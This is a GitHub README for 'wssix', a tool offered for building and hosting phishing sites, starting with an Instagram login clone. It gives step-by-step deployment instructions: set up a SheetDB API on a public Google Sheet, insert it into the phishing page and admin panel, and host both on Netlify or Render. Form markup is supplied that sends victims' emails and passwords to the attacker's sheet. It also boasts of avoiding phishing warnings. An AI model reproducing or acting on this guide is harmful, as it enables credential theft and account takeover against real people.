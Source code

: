 
# wssix
wssix helps you to create your own phishing tool.

## Benefits of this tool

- Admin panel 
- 24/7 Online 
- No phishing warnings on webpage
- Create unlimited custom phish websites

## Deployment

#### Creating API key...

- First you have to create blank google sheet.
- Make this sheet public and inside this sheet type email and password on first two cells.( **not real email password , just type this words** )

- Now go to [sheetdb.com](https://sheetdb.io/). Create account and click on create new api and inside this paste your google sheet url ( which we created in first step ).
 
- After this your api key is ready. Api is looks like 

```
	https://sheetdb.io/api/v1/xvxbpk*******
```

#### Setup Phish page and Admin Panel ...

- Now, First clone this repository
```bash
git clone https://github.com/Harsh-bash/wssix
```
- Inside Instagram-phish folder , Open **index.html** file.

- In this file search this string : 
```bash
    http://your-sheetdb-api
```
and replace this with Your API.

- Now open **Admin-wssix** Folder.
- Goto **/static/js/** folder and open **main.864cb797.js** file.

- In this file search this string :
```bash 
http://your-sheetdb-api
```
and replace with your  **sheetdb** api.

**All done.....**

Now host **Admin-wssix** folder and **Instagram-phish** folder separately.
For hosting : 

- [**Netlify**](https://netlify.com/)
- [**Render**](https://render.com/)

### Now! we have our own instagram phishing page tool

## Create custom phish page 

- To send data from your **HTML FORM** to google sheets,
set you form tag **id,method,action and submit** as follow:

```javascript
<form id="sheetdb-form" method="post" action="https://YOUR_SHEETDB_API">
```

- Set **name** in username input tag as follow : 
```javascript
name="data[email]"
```

- Set **name** in password input tag as follow : 
```javascript
name="data[password]"
```

- Set Submit button as follow : 
```javascript
type="submit" name="submit"
```

**Now all data from this form is save in your google sheets and you can access it with this **admin panel**.


